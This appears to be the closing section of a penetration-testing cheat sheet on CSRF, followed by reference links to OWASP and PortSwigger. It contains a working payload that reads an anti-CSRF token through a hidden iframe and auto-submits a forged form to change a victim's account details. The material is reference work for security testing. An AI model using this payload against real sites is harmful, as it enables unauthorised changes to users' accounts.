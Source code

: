 ### CSRF Token Example

This is **just one** example.
Use the token with
any of the payloads mention earlier.

```html
<script charset="utf-8">
function setTokenAndSend(token){
    document.getElementsByName("user_token")[0].value = token
    document.getElementById("csrf_form").submit();
}
function getToken(){
    var iframe = document.getElementById("iframe");
    var doc = iframe.contentDocument ? iframe.contentDocument: iframe.contentWindow.document;
    var token = doc.getElementsByName("user_token")[0].value;
    setTokenAndSend(token)
}
</script>
<iframe id="iframe" onload="javascript:getToken();" src="http://{{< param "m.RDOMAIN" >}}/user/update/" style="display:none;"></iframe>
<form id="csrf_form" action="http://{{< param "m.RDOMAIN" >}}/user/update/" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="0xffsec" />
    <input name="user_token" type="hidden" value="set_by_js" />
</form>
```

## Further Reading

- [MDN - Cross Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
- [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
- [OWASP - Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger - Cross-site request forgery](https://portswigger.net/web-security/csrf)
- [PortSwigger - XSS vs CSRF](https://portswigger.net/web-security/csrf/xss-vs-csrf)

[^csrf-cgisecurity]: “The Cross-Site Request Forgery (CSRF/XSRF) FAQ.” CGISecurity - Website and Application Security News, https://www.cgisecurity.com/csrf-faq.html.
[^swissky-csrf]: swisskyrepo. “PayloadsAllTheThings/CSRF Injection at Master.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection.
[^referer-bypass]: “Bypass Referer Check Logic for CSRF.” HAHWUL, https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/.
[^referer-referrer-policy]: “Referer and Referrer-Policy Best Practices.” Web.Dev, https://web.dev/referrer-best-practices/.
